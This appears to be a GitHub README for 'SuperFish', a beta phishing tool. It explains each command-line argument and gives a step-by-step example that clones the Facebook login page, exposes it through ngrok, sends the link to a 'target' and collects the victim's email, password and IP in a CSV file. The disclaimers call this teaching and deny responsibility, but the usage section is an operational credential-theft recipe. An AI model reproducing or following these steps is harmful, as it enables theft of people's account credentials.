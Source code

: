## 👋 It's in beta, I'm still building
----
# How to install
#### Linux and Termux:
- Clone Rp: `git clone https://github.com/J4c5/superfish.git`
- Install the dependencies: `pip3 install -r requirements.txt`

# Arguments and Usage
#### The list of arguments are these:
```sh
--import-template
--local-template
--webserver-port
--webserver-host
--redirect
--output
```
#### Description of each argument
- `--import-template`: import a login template using a url for example: `--import-template=https://facebook.com/login`
- `--local-template`: use a local template that you might have downloaded to an index.html, example: `--local-template=./mytemplate/index.html`
- `--webserver-port`: configure a port for the server the default is 8080, example: `--webserver-port=8082`
- `--webserver-host`: configure a host, the default is: 127.0.0 1, example: `--webserver-host=0.0.0.0`
-  `--redirect`: configure where the victim will be directed to post the phishing, example: `--redirect=https://facebook.com`
-  `--output`: edit the phishing output, if you want in csv use: `--output=csv` or you want text: `--output=text`

### Examples
> ⚠ Warning - Do not use these means for bad things, this tool and author is not responsible for any damage caused. the methods explained here are for the purpose of teaching how the framework works.
#### Clone the facebook login page and create a link to it for everyone:
- 1 Start Ngrok Service: `ngrok http 1337`
- 2 Start SuperFish: `python3 superfish.py --import-template=https://facebook.com/login --redirect=https://facebook.com --webserver-port=1337 --output=csv`
- 3 share the public ngrok link with the target, the link will look like: "https://9470-131-161-179-245.ngrok.io"
- 4 then look in the CSV file, you will see the ip of the email and the password of the victim.

# Terms and Warns
> 1 This tool/author does not take responsibility for damages to third parties, this responsibility is entirely and completely from the user
